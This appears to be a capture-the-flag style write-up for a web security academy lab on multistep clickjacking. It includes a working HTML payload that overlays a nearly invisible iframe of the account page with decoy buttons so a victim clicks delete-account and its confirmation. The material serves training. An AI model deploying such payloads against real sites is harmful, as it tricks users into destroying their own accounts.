




<div align='center'>

# **Clickjacking**

</div>

## **Lab:** Multistep clickjacking

**Goal:** Construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions.

**The lab provide:** A credential wiener:peter

**Solution:**

1.  Log in as wiener and we see that the delete account function is in the `\my-account` endpoint



When clicking "Delete account", the website will show the confirmation dialog



2.  Knowing how the delete function work. We will make a payload html as below.

```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .first, .second {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .second {
		top:288px;
		left:225px;
	}
</style>
<div class="first">Click me first</div>
<div class="second">Click me next</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

The opacity = 0.0001 will make sure that the iframe is nearly invisible for the user

Here is the page (with opacity = 0.1)





3.  Send the payload to the victim to solve the lab